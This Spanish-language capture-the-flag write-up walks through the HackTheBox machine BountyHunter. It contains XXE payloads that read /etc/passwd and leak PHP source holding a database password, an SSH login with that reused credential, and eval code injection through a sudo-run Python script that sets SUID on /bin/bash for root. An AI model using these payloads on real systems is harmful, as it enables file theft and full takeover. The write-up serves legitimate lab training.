

# WriteUp HackTheBox BountyHunter

[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar

## Descripción de la máquina



La resolución de la máquina presenta las siguiente fases:

* Reconocimiento
    * nmap
* Explotación
* Escalada de privilegios

## Fase de Reconocimiento

Se realiza una prueba de ping para confirmar que haya conexión con la máquina

```console
ping 10.10.11.100 -c1
```

```
PING 10.10.11.100 (10.10.11.100) 56(84) bytes of data.
64 bytes from 10.10.11.100: icmp_seq=1 ttl=63 time=126 ms

--- 10.10.11.100 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 125.817/125.817/125.817/0.000 ms
```

Para identificar el sistema operativo usamos la utilidad proporcionada por S4vitar whichSystem.py[^1]

[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>

```console
whichSystem.py 10.10.11.100
```

```
10.10.11.100 (ttl -> 63): Linux
```

Se realiza una revisión de puertos con nmap con las siguientes opciones

* -p-: Para realizar el escaneo en todos los 65000 puertos TCP
* --open: Para reportar solamente los puertos que se encuentran abiertos
* -sS: TCP SYN port scan, este argumento se utiliza para realizar un escaneo rapido de puertos
* --min-rate: El argumento le exige a nmap realizar el escaneo con una tasa de paquetes por segundo no menor a la solicitada
* -vvv: triple verbose para mostrar más información
* -n: para que no realice resolución dns en el scaneo
* -Pn: Desabilita el descubrimiento del host a traves de ping
* -oG: exporta lo reportado en un archivo en formato grepeable

```console
sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn 10.10.11.100 -oG nmap/allPorts
```

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-24 15:13 -04
Initiating Parallel DNS resolution of 1 host. at 15:13
Completed Parallel DNS resolution of 1 host. at 15:13, 0.10s elapsed
DNS resolution of 1 IPs took 0.10s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 15:13
Scanning 10.10.11.100 [65535 ports]
Discovered open port 80/tcp on 10.10.11.100
Discovered open port 22/tcp on 10.10.11.100
Completed SYN Stealth Scan at 15:13, 13.60s elapsed (65535 total ports)
Nmap scan report for 10.10.11.100
Host is up, received user-set (0.13s latency).
Scanned at 2022-08-24 15:13:19 -04 for 13s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.85 seconds
           Raw packets sent: 67365 (2.964MB) | Rcvd: 67249 (2.690MB)
```

Por comodidad usamos la utilidad proporcionada por S4vitar extractPorts la cual nos ayuda a revisar el archivo creado por nmap 'all Ports' y nos copia los puertos en la clipboard para su posterior uso; se adjunta la utilidad a continuación

```console
extractPorts () {
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)"
        echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
        echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
        echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
        /bin/bat extractPorts.tmp
        rm extractPorts.tmp

```

Ejecutamos el comando extractPorts

```console
extractPorts nmap/allPorts
```

```
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.11.100
   5   │     [*] Open ports: 22,80
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
```

Se realiza un nuevo escaneo con una serie de scripts básicos que nmap nos ofrece para ver las técnologias que corren por detrás

```console
nmap -sCV -p22,80  10.10.11.100 -oN nmap/targeted 
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-24 15:14 -04
Nmap scan report for 10.10.11.100
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.97 seconds
```

Vemos que se tiene un servicio web, por tanto ingresamos a la wen para ver que se presenta

[web-server](Images/imagen01.png)

Ingresando en la web y navegando en los botones observamos que en el botón Portal nos aparece una opción que se encuentra en desarrollo

[Portal](Images/imagen02.png)

Ingresando vemos que se tiene un formulario el cual pasaremos por Burpsuite para ver que es lo que se está mandando

[bunty-Report](Images/imagen03.png)

Ingresamos a Burpsuite

```console
BurpSuiteCommunity/BurpSuiteCommunity &> /dev/null & disown
```

## Fase de Explotación

Pasamos la solciitud por burpsuite

[solicitud](Images/imagen04.png)

[solicitud-burp](Images/imagen05.png)

y vemos que la data se transmite en *base64* y se encuentra *urlencodeada*

[data-decodificada](Images/imagen06.png)

Observamos en Portswigger que hay una vulnerabilidad que se puede explotar con XXE para poder leer los archivos del sistema <https://portswigger.net/web-security/xxe>

Modificamos la solicitud de la siguiente forma:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

Y al pasar la data nuevamente por el Repeater en Burpsuite en *base64* y *urlencodeado* vemos que nos reporta el contenido del */etc/passwd*

[repeater-vuln-xxe](Images/imagen07.png)

En el archivo passwd vemos que se tiene un usuario llamado *development*

```
development:x:1000:1000:Development:/home/development:/bin/bash
```

Probamos ver si se puede leer la clave privada ssh del usuario development con el siguiente código, sin embargo nos da un error

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/development/.ssh/id_rsa"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

[privssh-develptment-failed](Images/imagen08.png)

Por tanto probamos leer el archivo php que se está ejecutando en la llamada, sin embargo lo debemos pasar por un wrapper para que no nos ejecute el php y nos pase el archivo en base64

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=log_submit.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

[log-submit.php](Images/imagen09.png)

la respuesta la decodificamos de la siguiente forma

```console
echo 'PGh0bWw+CjxoZWFkPgo8c2NyaXB0IHNyYz0iL3Jlc291cmNlcy9qcXVlcnkubWluLmpzIj48L3NjcmlwdD4KPHNjcmlwdCBzcmM9Ii9yZXNvdXJjZXMvYm91bnR5bG9nLmpzIj48L3NjcmlwdD4KPC9oZWFkPgo8Y2VudGVyPgo8aDE+Qm91bnR5IFJlcG9ydCBTeXN0ZW0gLSBCZXRhPC9oMT4KPGlucHV0IHR5cGU9InRleHQiIGlkID0gImV4cGxvaXRUaXRsZSIgbmFtZT0iZXhwbG9pdFRpdGxlIiBwbGFjZWhvbGRlcj0iRXhwbG9pdCBUaXRsZSI+Cjxicj4KPGlucHV0IHR5cGU9InRleHQiIGlkID0gImN3ZSIgbmFtZT0iY3dlIiBwbGFjZWhvbGRlcj0iQ1dFIj4KPGJyPgo8aW5wdXQgdHlwZT0idGV4dCIgaWQgPSAiY3ZzcyIgbmFtZT0iZXhwbG9pdENWU1MiIHBsYWNlaG9sZGVyPSJDVlNTIFNjb3JlIj4KPGJyPgo8aW5wdXQgdHlwZT0idGV4dCIgaWQgPSAicmV3YXJkIiBuYW1lPSJib3VudHlSZXdhcmQiIHBsYWNlaG9sZGVyPSJCb3VudHkgUmV3YXJkICgkKSI+Cjxicj4KPGlucHV0IHR5cGU9InN1Ym1pdCIgb25jbGljayA9ICJib3VudHlTdWJtaXQoKSIgdmFsdWU9IlN1Ym1pdCIgbmFtZT0ic3VibWl0Ij4KPGJyPgo8cCBpZCA9ICJyZXR1cm4iPjwvcD4KPGNlbnRlcj4KPC9odG1sPgo=' | base64 -d | cat -l php
```

```php
<html>
<head>
<script src="/resources/jquery.min.js"></script>
<script src="/resources/bountylog.js"></script>
</head>
<center>
<h1>Bounty Report System - Beta</h1>
<input type="text" id = "exploitTitle" name="exploitTitle" placeholder="Exploit Title">
<br>
<input type="text" id = "cwe" name="cwe" placeholder="CWE">
<br>
<input type="text" id = "cvss" name="exploitCVSS" placeholder="CVSS Score">
<br>
<input type="text" id = "reward" name="bountyReward" placeholder="Bounty Reward ($)">
<br>
<input type="submit" onclick = "bountySubmit()" value="Submit" name="submit">
<br>
<p id = "return"></p>
<center>
</html>
```

Sin embargo el archivo no nos encuentra nada

Para ello realizamos un fuzzeado al web server en busca de más archivos *php*

```console
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.11.100/FUZZ.php
```

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.100/FUZZ.php
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000001:   403        9 L      28 W       277 Ch      "http://10.10.11.100/.php"                                                                                                
000000355:   200        5 L      15 W       125 Ch      "portal"                                                                                                                  
000000002:   200        388 L    1470 W     25168 Ch    "index"                                                                                                                   
000000835:   200        0 L      0 W        0 Ch        "db"                                                                                                                      
000045227:   403        9 L      28 W       277 Ch      "http://10.10.11.100/.php"                        
```

Por tanto vemos un archivo llamado db.php el cual realizamos los mismos pasos

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

Y obtenemos el siguiente código

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

Probando con esta contraseña con el usuario development por ssh vemos que tenemos acceso

```console
ssh development@10.10.11.100
```

```
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 24 Aug 2022 08:37:53 PM UTC

  System load:           0.0
  Usage of /:            23.9% of 6.83GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             215
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.100
  IPv6 address for eth0: dead:beef::250:56ff:feb9:d32c


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Jul 21 12:04:13 2021 from 10.10.14.8
development@bountyhunter:~$ 
```

y ahi podemos ver la flag de usuario

```console
development@bountyhunter:~$ cat user.txt 
```

```
15174f933ba200339b8ac5e91ef9715a
```

## Fase de Escalación de Privilegios

revisando el archivo *contract.txt* vemos que al usuario *development* se le dio algunos permisos extra

```console
development@bountyhunter:~$ cat contract.txt
```

```Hey team,

I'll be out of the office this week but please make sure that our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful of tickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.

-- John
```

Viendo los permisos sudo que tenemos vemos que tenemos permiso a ticketValidator.py

```console
development@bountyhunter:~$ sudo -l
```

```
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

Revisando el archivo /opt/skytrain_inc/ticketValidator.py

```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

Observamos que el script lee archivos markdown (*.md*) que tenga el siguiente contenido y realiza un *eval()* con la última línea

1. nos creamos u archivo en /tmp/example.md
2. le añadimos el contenido siguiente

```markdown
# Skytrain Inc
## Ticket to 
__Ticket Code:__
** 11 + 2 and __import__('os').system('whoami')
```
3. corremos el script en python para leer el archivo

```console
development@bountyhunter:/tmp$ sudo python3.8 /opt/skytrain_inc/ticketValidator.py 
```

```
Please enter the path to the ticket file.
/tmp/example.md
Destination: 
root
Invalid ticket.
```

Por tanto cambiamos el archivo /tmp/example.md por el siguiente codigo para dar un privilegio suid a la /bin/bash

```markdown
# Skytrain Inc
  ## Ticket to 
  __Ticket Code:__
  ** 11 + 2 and __import__('os').system('chmod u+s /bin/bash')
```

```console
development@bountyhunter:/tmp$ sudo python3.8 /opt/skytrain_inc/ticketValidator.py 
```

```
Please enter the path to the ticket file.
/tmp/example.md
Destination: 
Invalid ticket.

revisamos que se haya modificado la /bin/bash

```console
development@bountyhunter:/tmp$ ls -lha /bin/bash
```

```
-rwsr-xr-x 1 root root 1.2M Jun 18  2020 /bin/bash
```

Dado que modificó el archivo, accedemos a la /bin/bash de la sigueinte manera

```console
development@bountyhunter:/tmp$ /bin/bash -p
```

```
bash-5.0# whoami
root
```

Y ya podemos leer la flag del usuario root

```console
bash-5.0# cat /root/root.txt
```

```
8734bbaaea9121a8f062659842fe49ff
```

## Estructura del directorio

```
BountyHunter
├── content
├── exploits
├── Images
│   ├── imagen01.png
│   ├── imagen02.png
│   ├── imagen03.png
│   ├── imagen04.png
│   ├── imagen05.png
│   ├── imagen06.png
│   ├── imagen07.png
│   ├── imagen08.png
│   └── imagen09.png
├── nmap
│   ├── allPorts
│   └── targeted
├── Readme.md
└── scripts
```


